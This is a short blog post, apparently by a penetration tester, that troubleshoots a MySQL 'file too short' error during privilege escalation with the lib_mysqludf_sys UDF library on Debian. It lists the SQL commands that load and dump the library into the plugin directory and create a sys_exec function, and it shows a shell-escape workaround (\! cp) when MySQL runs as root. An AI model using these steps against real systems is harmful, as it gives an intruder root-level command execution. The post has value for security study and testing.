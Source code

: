 ```yaml
---
title: "MySQL Error "file too short" when creating sys_exec function"
layout: post
published: true
---
```


I’ve recently encountered an interesting error “file too short” when escalating privileges on a Linux box via MySQL Library (lib_mysqludf_sys_64.so).

```bash
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/lib_mysqludf_sys_64.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';

ERROR 1126 (HY000): Can't open shared library 'lib_mysqludf_sys_64.so' 
(errno: 11 /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so: file too short)
```


Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)


### Solution
MySQL is running as root so we can try to copy the file manually via breaking into a shell 

```bash
mysql> \! cp lib_mysqludf_sys_64.so /usr/lib/mysql/plugin/

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)
```

### Software version details

- Database version MySQL 5.7.30 
- mysql process is running as a root
- OS: Debian 9.12 (stretch) x86_64

Cheers,</br>
bitsailor